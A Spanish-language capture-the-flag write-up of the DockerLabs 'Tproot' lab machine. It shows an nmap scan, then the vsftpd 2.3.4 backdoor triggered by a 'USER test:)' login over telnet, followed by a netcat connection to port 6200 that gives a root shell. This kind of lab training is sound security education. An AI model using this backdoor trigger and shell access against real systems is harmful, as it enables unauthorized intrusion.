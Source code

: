 ```yaml
---
title: Tproot - DockerLabs
categories: [ Linux ]
tags: [DockerLabs]
---
```


<img src="/assets/img/DLabs/tproot.png" alt="Captura de pantalla de la máquina TProot en DockerLabs">

Hoy explotaremos la máquina *Tproot* de [DockerLabs](https://dockerlabs.es/), de dificultad Muy Fácil. Nos aprovecharemos de una vulnerabilidad en *vsftpd* en una versión sin parche.

## Desplegamos la máquina

```bash
➤ sudo bash auto_deploy.sh tproot.tar
[sudo] contraseña para nmc:     

	                    ##        .         
	              ## ## ##       ==         
	           ## ## ## ##      ===         
	       /""""""""""""""""\___/ ===       
	  ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
	       \______ o          __/           
	         \    \        __/            
	          \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____   
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__   
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]  
                                         
				     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```



## Escaneo NMAP

Antes que nada, deberemos hacer un escaneo de puertos con **nmap** para encontrar los puertos abiertos y qué servicios corren en ellos.

```bash
➤ nmap -sV -p- --min-rate=100 -T4 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-17 15:11 CST
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds
```



Nos percatamos de que está abierto el puerto **21** con el servicio **FTP**, que utiliza la versión *vsftpd 2.3.4.* Esta versión de vsftpd tiene una vulnerabilidad tipo backdoor que se activa cuando se introducen usuarios con ":)". Al hacerlo, se abre una *shell* en el puerto **6200**, permitiendo acceso remoto al sistema.

## Conexión mediante Telnet y Netcat

Nos conectamos con Telnet al puerto 21 y aprovechamos la vulnerabilidad para ingresar sin necesidad de autenticación, usando los comandos:
***USER test:)
***PASS test

```bash
➤ telnet 172.17.0.2 21
Trying 172.17.0.2...
Connected to 172.17.0.2.
Escape character is '^]'.
220 (vsFTPd 2.3.4)
USER test:)
331 Please specify the password.
PASS test
```



Ponemos a escuchar netcat en el puerto 6200 e intentamos ejecutar el comando *whoami*.

```bash
➤ nc 172.17.0.2 6200
whoami
root
```



## Acceso ROOT obtenido

¡Máquina comprometida! Te deseo un feliz hackeo.
